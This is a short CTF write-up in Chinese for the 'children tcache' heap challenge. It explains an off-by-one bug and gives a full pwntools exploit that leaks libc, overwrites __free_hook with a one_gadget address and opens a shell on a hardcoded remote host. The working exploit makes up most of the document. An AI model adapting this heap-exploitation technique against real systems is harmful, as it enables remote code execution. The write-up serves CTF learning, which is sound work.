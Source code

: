 # children tcache

## 分析

仍然是个off-by-one漏洞，但跟baby tcache不一样的地方，有个打印内存内容的函数。

核心还是构造overlapping chunks，具体见利用代码，直接抄的出题人的。

## 脚本

```python
#!/usr/bin/env python

# -*- coding: utf-8 -*-
from pwn import *

host = "10.211.55.19"
#host = "52.68.236.186"
#port = 56746
host = "54.178.132.125"
port = 8763

r = remote(host,port)


def allocate(size,data):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil("e:")
    r.sendline(str(size))
    r.recvuntil("a:")
    r.send(data)

def show(idx):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil("x:")
    r.sendline(str(idx))

def free(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil("x:")
    r.sendline(str(idx))

for i in range(6):
    allocate(0x80,"a")

allocate(0x38,"a") #6
allocate(0x4e0+0x490,"b") #7
allocate(0x410,"c") #8
allocate(0x80,"d") #9
free(7)
free(6)
allocate(0x68,"c"*0x68) #6
allocate(0x80,"d"*0x78) #7
free(5)
allocate(0x60,"da") #5
for i in range(5) :
    free(i)
free(9)
free(7)
free(8)
allocate(0x90,"ccc")
allocate(0x7f0-0xa0,"d")
allocate(0x50,"d")
free(5)
allocate(0x30,"a")
allocate(0x60,"a")
allocate(0x20,"gg")
show(4)
libc = u64(r.recvuntil("\n")[:-1].ljust(8,"\x00")) - 0x3ebca0
print hex(libc)
free_hook = libc + 0x3ed8e8
free(0)
allocate(0xa0,"b"*0x70 + p64(free_hook))

allocate(0x90,"b")
magic = libc  +0x4f322
allocate(0x90,p64(magic))

free(5)
r.interactive()
```

## 参考

p4战队的解法，利用了tcache块超出7个以后，会掉到unsortbin的特性:
    * http://eternal.red/2018/children_tcache-writeup-and-tcache-overview/
